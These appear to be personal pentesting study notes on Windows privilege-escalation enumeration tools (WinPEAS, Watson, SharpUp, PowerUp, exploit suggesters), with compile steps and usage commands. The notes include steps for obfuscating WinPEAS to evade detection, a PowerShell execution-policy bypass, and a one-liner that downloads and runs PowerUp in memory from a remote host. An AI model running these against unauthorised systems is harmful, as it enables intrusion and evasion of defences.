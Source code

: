Automated Issues Finders

## WinPEAS

- Tool for finding priv esc paths in windows
- Performs a lot of checks to then go through
- uses colour highlighting to find information quickly

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

- .exe and .bat file
- can download obfuscated version or compile

### Commands

```
winpeas.exe cmd searchall searchfast #cmd commands, search all filenames and avoid sleepig (noisy - CTFs)
winpeas.exe #Will execute all checks except the ones that use a CMD
winpeas.exe cmd #All checks
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
```

### Compile

- install dotfuscator
- **Compile** winpeas in VisualStudio
- **Open dotfuscator** app
- **Open** in dotfuscator **winPEAS.exe compiled** before and **Microsoft.Win32.TaskScheduler.dll** (is in the same folder as winPEAS.exe)
- Click on **Build**
- The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

## Watson

https://github.com/rasta-mouse/Watson

- Enumerates missing KB's and suggests exploits
- You need to know the version of .net running on the target system

```
C:\windows\microsoft.net\framework\
```



### Compiling

- Open in Visual Studio
- Solution Explorer > Properties > Target Framework
- Make the value align with the version of .net running on the target
- Build the project

### Commands

```
C:/> watson.exe
```

## SharpUp

https://github.com/GhostPack/SharpUp

- C# port of PowerUp

### Compile

- Open the .sln in Visual Studio
- choose "release"
- Build

### commands

```
SharpUp.exe audit
```

## PowerUp

https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc

### Commands

```
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
```

To Download and run in memory:

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Invoke-AllChecks"
```

## Windows-Exploit-Suggester

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

- You run locally on your machine, and give it the systeminfo input from the system you are reviewing

### Commands

```
windows-exploit-suggester.py --update

windows-exploit-suggester.py --database blah.xlsx --systeminfo blah.txt
```

## Metasploit

- Metasploit has a post exploitation module

```
run post/multi/recon/local_exploit_suggester
```


